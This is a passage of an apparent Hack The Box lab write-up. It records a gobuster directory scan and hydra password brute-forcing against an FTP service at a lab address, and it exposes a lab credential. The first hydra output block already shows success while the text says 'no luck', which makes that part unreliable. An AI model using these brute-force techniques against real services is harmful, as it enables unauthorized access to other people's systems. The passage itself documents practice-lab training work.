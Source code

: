 ```none
└─$ gobuster dir -t 20 -u http://10.10.10.46 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_80_root_medium.log -x php
```

This found the `dashboard.php` page - but this was not accessible and redirected back to `index.php`.

## 21: FTP Access

There seemed nothing else left to try, so switched to port 21 and FTP. I tried a bunch of users and passwords again using `hydra` and the credentials lists I have been gathering from all starting point boxes.

```none
└─$ hydra -L ../creds/usernames -P ../creds/passwords ftp://10.10.10.46
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-11 12:41:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:5/p:4), ~2 tries per task
[DATA] attacking ftp://10.10.10.46:21/
[21][ftp] host: 10.10.10.46   login: ftpuser   password: mc@F1l3ZilL4
1 of 1 target successfully completed, 1 valid password found
```

Had no luck. Put in another 30 minutes or so - and was down a rabbit hole. Looked up a walk-through and discovered that to progress in this machine - you needed credentials from the previous machine. I had these! Or so I thought. The credentials are from the "post-exploitation" phase and located in the `/root` folder of the previous machine (named Oopsie). I never do post-exploitation on Hack the Box - and was left frustrated (again) by the starting point boxes. Anyway, the credential found were.

- Username: `ftpuser`
- Password: `mc@F1l3ZilL4`

After getting these credentials, I added them to the `username` and `password` files in my `creds` folder. I do this to keep track of all the credentials, and to use them as input to tools. I fired up `hydra` and targeted the FTP service.

```none
└─$ hydra -L ../creds/usernames -P ../creds/passwords ftp://10.10.10.46
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-11 12:41:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:5/p:4), ~2 tries per task
[DATA] attacking ftp://10.10.10.46:21/
[21][ftp] host: 10.10.10.46   login: ftpuser   password: mc@F1l3ZilL4
1 of 1 target successfully completed, 1 valid password found
```

Success! A valid login! From here, log in to the service.
